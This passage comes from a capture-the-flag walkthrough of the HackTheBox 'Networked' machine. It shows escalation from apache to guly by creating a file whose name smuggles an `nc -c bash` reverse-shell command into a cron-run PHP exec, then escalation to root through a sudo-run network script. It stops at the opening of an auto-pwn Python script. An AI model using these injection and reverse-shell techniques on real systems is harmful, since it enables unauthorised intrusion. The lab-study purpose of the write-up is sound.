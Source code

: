 # apache --> Guly

First we need to get guly user in this box

We see on the home folder two interesting files

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2022-01-04-HackTheBox-Networked/2022-01-04-HackTheBox-Networked%2006:37:33.png)

We see that we have a cron running every three minutes by this guly user, and it runs a file called **check_attack.php**, we get to good things in it. The first one is that we have the function **exec** in it, which means that it's running OS commands, the second is that we can controle the variables which are being passed to it, that is the **$path$value**. So let's see how we can explore it.

The variable $path is being seted on the top of the script. But the $value not. The script start reading the files in the upload folder, selecting ones which does not start with .. So if, we put a valid file name, followed by ; (semicolon) it'll execute it... So, let's try it out.

We create the malicious file, and wait the cron run it for us

```sh
touch ';nc -c bash 10.10.16.4 443
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2022-01-04-HackTheBox-Networked/2022-01-04-HackTheBox-Networked%2006:51:35.png)

Ok, now let's get a root shell in this box.

# Guly --> root

The first things we could try is the `sudo -l` command, we see that we can run a command as root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2022-01-04-HackTheBox-Networked/2022-01-04-HackTheBox-Networked%2006:53:12.png)

Anything after a space in a value in a network script where the format is VARIABLE=value will be executed, so we can get rce in it with this in mind

So, we easly get root in this way

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2022-01-04-HackTheBox-Networked/2022-01-04-HackTheBox-Networked%2007:01:14.png)

Now, let's automate everything.

# Auto Pwn Root

Here it's

root_pwn_networked.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Python Auto Pwn Root Networked HackTheBox

import argparse
import requests
import sys
import os
from pwn import *
import base64
import urllib.parse
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

```